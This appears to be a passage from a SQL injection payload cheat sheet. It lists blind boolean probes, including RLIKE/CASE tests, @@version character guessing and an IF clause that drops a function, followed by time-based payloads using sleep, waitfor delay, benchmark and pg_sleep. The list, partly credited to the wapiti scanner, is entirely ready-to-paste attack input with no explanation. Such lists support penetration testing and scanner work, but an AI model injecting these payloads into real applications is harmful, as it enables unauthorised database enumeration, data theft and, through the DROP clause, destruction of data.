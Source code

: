 ```
 RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
 RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
%' AND 8310=8310 AND '%'='
%' AND 8310=8311 AND '%'='
 and (select substring(@@version,1,1))='X'
 and (select substring(@@version,1,1))='M'
 and (select substring(@@version,2,1))='i'
 and (select substring(@@version,2,1))='y'
 and (select substring(@@version,3,1))='c'
 and (select substring(@@version,3,1))='S'
 and (select substring(@@version,3,1))='X'
```

#### Generic Time Based SQL Injection Payloads

```
# from wapiti
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
```